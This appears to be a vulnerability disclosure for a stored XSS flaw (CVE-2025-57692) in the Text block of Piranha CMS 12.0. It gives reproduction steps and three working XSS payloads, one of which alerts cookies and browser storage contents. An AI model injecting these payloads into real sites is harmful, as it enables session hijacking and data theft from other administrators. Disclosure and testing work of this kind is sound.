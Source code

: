 # Public Disclosure: Stored XSS in Text Block – Piranha CMS 12.0 #

<b>Title</b>:<br> Stored Cross-Site Scripting in Text Block of Standard and Archive Pages in Piranha CMS 12.0

### Summary: ###
Piranha CMS 12.0 contains a stored cross-site scripting (XSS) vulnerability affecting the “Text” content block used in both Standard Page and Standard Archive Page types. When adding text content via the page editor, user-supplied HTML is not properly sanitized. An authenticated user can inject JavaScript payloads that are saved with the page content. These scripts are executed immediately upon save and every time the page is previewed or accessed, resulting in persistent XSS. This presents a serious risk for shared admin environments and can lead to account compromise or unauthorized data access.

<b>CVE ID:</b>
(CVE:2025-57692)

<b> Vendor:</b><br>
https://piranhacms.org<br>
https://github.com/PiranhaCMS/piranha.core

<b>Affected Product:</b><br>
Piranha CMS version 12.0<br>
https://github.com/PiranhaCMS/piranha.core/releases/tag/v12.0

<b>Affected Component:</b><br>
Pages → Standard Page / Standard Archive →  Content Block --> Text <br>
Path: /manager/pages<br>

## <b> Proof-of-Concept (PoC)</b> ##

1. Log in to the Piranha CMS admin panel at /manager/login
   
2. Navigate to the Pages section
   ![Step 1a](assets/1a.png)

3. Click “Add Page” and choose either:

Standard Page, or Standard Archive
   ![Step 1b](assets/1b.png)

4  Enter a page title (e.g., XSS-Test)
   ![Step 1c](assets/1cc.png)

5. Click the [+] button and select “Text” under “Content”

6 In the text input area, paste one of the following payloads:

Payload A
 ```bash 
<img src="x" onerror="
  alert(
    'Cookies: ' + document.cookie + '\n' +
    'LocalStorage: ' + JSON.stringify(localStorage) + '\n' +
    'SessionStorage: ' + JSON.stringify(sessionStorage) + '\n' +
    'URL: ' + window.location.href + '\n' +
    'User Agent: ' + navigator.userAgent + '\n' +
    'Time: ' + new Date().toLocaleString()
  )
" />
 ```


Payload B

 ```bash 
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>
```

Payload C

 ```bash 
<details open ontoggle=alert('XSS')>Click</details>
```
   ![Step 1d](assets/1d.png)


7 Click Save and  Click Preview

 Boom 
 it executes again. Anyone who accesses  the page triggers the XSS.
   ![Step 1e](assets/1e.png)


<b>Impact:</b>
<br>
Persistent (Stored) Cross-Site Scripting (XSS): Injected scripts are saved as part of the page content.<br>
Automatic Execution: Payloads execute every time the page is accessed, previewed, or viewed by any user.<br>
Session Compromise: it lead to session hijacking or theft of sensitive data such as cookies, tokens, or local/session storage.<br>
Privilege Abuse: Enables malicious authenticated users to target other admins or editors, escalating access or impersonating users.<br>
Multi-Page Exposure: Affects both Standard Pages and Standard Archive Pages, increasing the overall attack surface.<br>

